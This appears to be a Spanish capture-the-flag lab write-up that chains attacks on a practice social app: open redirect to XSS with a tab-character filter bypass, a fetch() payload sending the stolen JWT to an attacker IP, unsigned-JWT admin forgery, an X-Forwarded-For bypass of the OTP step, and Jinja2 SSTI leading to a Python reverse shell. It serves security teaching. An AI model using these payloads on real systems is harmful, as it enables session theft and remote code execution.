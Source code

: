 # Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder a la aplicación con un usuario cualquiera.

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](img/localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](img/ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://<IP_ATACANTE>/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](img/blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](img/blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](img/checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://<IP_ATACANTE>/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](img/requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](img/exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que un JSON Web Token (JWT) llega correctamente al servidor del atacante.

![](img/tokenReceived.png)

Ahora, podemos utilizar el JWT para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del JWT que hemos obtenido.

![](img/localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](img/loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder como administrador.

Tras iniciar sesión, podemos ver que tenemos una funcionalidad para publicar posts, pero se encuentra deshabilitada.

![](img/disabledposting.png)

Por lo tanto, vamos a revisar el JWT en busca de vulnerabilidades.

JWT se compone de tres partes: header, payload y firma. El header contiene información sobre el algoritmo de cifrado utilizado. El payload contiene la información que queremos guardar en el JWT. La firma se utiliza para verificar que el JWT no ha sido modificado, y se calcula mediante el header, el payload y una clave secreta.

Gracias a la página [JWT.io](https://jwt.io/), podemos ver el contenido del JWT más fácilmente. Introducimos el JWT obtenido anteriormente y obtenemos la siguiente información:

![](img/jwtdecoded.png)

Tenemos un campo "id" con el valor "5", que seguramente corresponda al identificador del usuario. Para modificarlo, necesitamos conocer la clave secreta que se utiliza para firmar el JWT, a menos que podamos encontrar una vulnerabilidad.

Si revisamos el HTTP History de Burp Suite al añadir un JWT en el Local Storage del navegador y refrescamos la página, se realiza una petición contra el endpoint "/session", que dado un JWT válido devuelve una cookie de sesión.

![](img/jwtreturnssession.png)

Vamos a probar a eliminar la firma del JWT y ver qué ocurre. Si se elimina la firma y la aplicación no la comprueba, el JWT se considera válido. Si esto ocurre, la aplicación debe devolver una cookie de sesión.

![](img/signatureremoved.png)

Esta vulnerabilidad permite manipular el payload del JWT, por lo que podemos modificar el valor de la clave "id" para que sea "1" y acceder como el primer usuario de la aplicación, que normalmente es el administrador.

![](img/modifiedidjwt.png)

Cerramos sesión y especificamos el JWT modificado desde la consola del navegador de la siguiente manera:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')

![](img/setadminjwt.png)

Si recargamos la página, comprobamos que hemos accedido como administrador.

![](img/loginasadmin.png)

</details>

## Etapa 3: Leer el archivo /flag

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es leer el archivo /flag, que contiene la flag final.

El panel de administración tiene la siguiente apariencia:

![](img/adminpanel.png)

Tenemos dos opciones: actualizar los datos del servidor SMTP y enviar un correo electrónico de prueba. El problema es que si intentamos usar cualquiera de las dos opciones, salta un segundo factor de autenticación, que nos pide un código OTP.

Ejemplo al intentar actualizar los datos del servidor SMTP:

![](img/verifyotp.png)

Existen casos en los que las aplicaciones confían en la cabecera "X-Forwarded-For". Esta cabecera fue creada para que los servidores web puedan saber la IP real de los usuarios que acceden a la aplicación a través de un proxy. En este caso, la aplicación confía en esta cabecera y no comprueba la IP real del usuario.

Si agregamos la cabecera "X-Forwarded-For" para que su valor sea la dirección IPv4 de loopback (127.0.0.1), la aplicación cree que el usuario está accediendo desde la misma máquina que el servidor, por lo que no se activa el segundo factor de autenticación.

La petición que se realiza al intentar actualizar los datos del servidor SMTP es la siguiente:

![](img/updatesmtporiginalrequest.png)

Al agregar la cabecera "X-Forwarded-For: 127.0.0.1", el servidor no comprueba el segundo factor de autenticación y autoriza la petición.

![](img/updatesmtpmodifiedrequest.png)

Podemos agregar una regla de "Match and Replace" en Burp Suite para que se agregue la cabecera "X-Forwarded-For" automáticamente en todas las peticiones, con la siguiente configuración:

* **Type:** Request header
* **Replace:** X-Forwarded-For: 127.0.0.1

![](img/addmatchreplacerule.png)

Vamos a modificar la dirección IP del servidor SMTP para que sea la del atacante.

![](img/smtpipmodified.png)

Con Python podemos crear un servidor SMTP que escuche en el puerto 25 y nos muestre los correos electrónicos que reciba. Para ello, ejecutamos el siguiente comando:

    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25

![](img/pythonsmtpserver.png)

Ahora, si enviamos un correo electrónico de prueba a cualquier dirección, lo recibimos en el servidor SMTP.

![](img/receiveemail.png)

La petición que se realiza al enviar un correo electrónico de prueba es la siguiente:

![](img/sendemailrequest.png)

La clave "message" llama la atención porque su valor contiene la variable {{session['username']}}, que es sustituido por el nombre del usuario que envía el correo electrónico. Esto recuerda a una vulnerabilidad de Server-Side Template Injection (SSTI), que permite ejecutar código en el servidor, en este caso, código Python.

Para confirmar que se trata de una vulnerabilidad de SSTI, lo primero es identificar el motor de plantillas que utiliza la aplicación, dado que cada uno tiene su propia sintaxis. 

El motor de plantillas más utilizado en Flask es Jinja2. Para comprobar si la aplicación está utilizando este motor de plantillas, podemos probar a enviar un correo electrónico de prueba con el siguiente contenido:

    {{config}}

![](img/config.png)

Y comprobar si la respuesta contiene información sobre la configuración de la aplicación. 

![](img/configreceived.png)

Funciona, por lo que podemos probar a extraer el contenido del archivo /flag, mediante el siguiente payload extraído de [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread):

    {{cycler.__init__.__globals__.os.popen('cat /flag').read()}}

![](img/messagetoolong1.png)

Desgraciadamente, el valor de la clave "message" es demasiado largo, por lo que el payload no es ejecutado.

Necesitamos un payload más corto, pero primero necesitamos conocer cuánto espacio tenemos disponible para el payload. Vamos a ir agregando caracteres "X" en "message" hasta que la petición devuelva un error.

Al enviar 45 caracteres "X", la petición funciona correctamente.

![](img/45x.png)

Al enviar 46 caracteres "X", la petición devuelve un error.

![](img/46x.png)

Podemos concluir que tenemos 45 caracteres disponibles para el payload.

El artículo [Exploiting Jinja SSTI with limited payload size](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/) ofrece una solución para saltar la restricción de tamaño de payload.

La técnica propuesta consiste es actualizar "config", que es un diccionario que contiene la configuración de la aplicación. Añadimos un elemento al diccionario llamado "a" con el comando que le pasemos por el parámetro GET "a". 

De esta forma, no necesitamos incluir el comando en el campo "message", sino que lo pasamos por el parámetro GET, evadiendo así la restricción de tamaño.

En este caso, el comando es una reverse shell de Python 3.

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ATACANTE>",<PUERTO_ATACANTE>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

**Importante:** Modificar "IP_ATACANTE" y "PUERTO_ATACANTE" por la dirección IP y el puerto del atacante respectivamente. Seleccionamos el texto y presionamos "Ctrl+U" en el Repeater de Burp Suite para que se codifique en formato URL.

Y el payload que vamos a utilizar es el siguiente:

    {{config.update(a=request.args.get('a'))}}

![](img/payload.png)

Nos ponemos a la escucha en el puerto especificado en el payload.

    nc -lvnp <PUERTO_ATACANTE>

![](img/nc.png)

Lanzamos os.popen(config.a) para que se ejecute el comando de la reverse shell, con el siguiente payload:

    {{lipsum.__globals__.os.popen(config.a)}}

Explicación del payload:
* **lipsum:** función que genera texto aleatorio, desde aquí podemos acceder a las variables globales.
* **\_\_globals\_\_:** diccionario que contiene las variables globales de las funciones, incluyendo "os".
* **os:** módulo que contiene funciones para interactuar con el sistema operativo.
* **popen:** función que ejecuta un comando en el sistema operativo.

![](img/revshell.png)

Y obtenemos una reverse shell.

![](img/shell.png)

Leemos el contenido del archivo /flag.

![](img/flagcontent.png)

</details>
